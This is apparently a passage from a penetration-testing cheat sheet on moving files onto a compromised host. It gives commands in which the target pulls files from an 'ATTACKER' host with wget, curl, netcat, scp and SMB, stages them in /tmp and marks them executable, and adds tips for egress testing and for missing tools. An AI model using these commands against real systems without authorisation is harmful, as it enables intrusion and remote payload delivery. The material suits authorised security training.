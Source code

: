 Test egress from target:
```bash
nc -zvw2 ATTACKER 80 443 8080 22 445 69
```

## Practical tips
- Prefer /tmp or /dev/shm for staging; avoid privileged paths without root.
- If HTTP fails on uncommon ports, try 80 or 443; use sudo to bind low ports.
- Always set executable permission for scripts/binaries (chmod +x).
- Verify integrity with sha256sum when moving large or critical files.
- If tools are missing on target (no wget/curl), try BusyBox, Python urllib, or base64.
- For large transfers or flaky links, use rsync -P or curl -C - to resume.
- SMB is great for bulk transfer; anonymous SMB may be blocked—be ready to authenticate.
- Keep filenames simple (no spaces) and use absolute paths to avoid confusion.
- Be mindful of egress-only environments; choose pull methods (HTTP/HTTPS, outbound nc) accordingly.

## Minimal cheat sheet (one-screen flow)

HTTP server and wget/curl:
```bash
# Attacker
cd /path/to/files && python3 -m http.server 8000

# Target
cd /tmp
wget -qO /tmp/FILE http://ATTACKER:8000/FILE || curl -fsSLo /tmp/FILE http://ATTACKER:8000/FILE
chmod +x /tmp/FILE
```

SCP (push or pull):
```bash
# Push (attacker -> target)
scp -P 22 FILE USER@TARGET:/tmp/

# Pull (target <- attacker; ensure SSH server on attacker)
scp -P 22 USER@ATTACKER:/path/to/FILE /tmp/FILE
```

Netcat:
```bash
# Attacker (serve file)
nc -q 0 -lvnp 4444 < FILE

# Target (receive)
nc -nv ATTACKER 4444 > /tmp/FILE && chmod +x /tmp/FILE
```

SMB:
```bash
# Attacker
impacket-smbserver -smb2support share $(pwd)

# Target
smbclient //ATTACKER/share -N -c "get FILE /tmp/FILE" && chmod +x /tmp/FILE
```
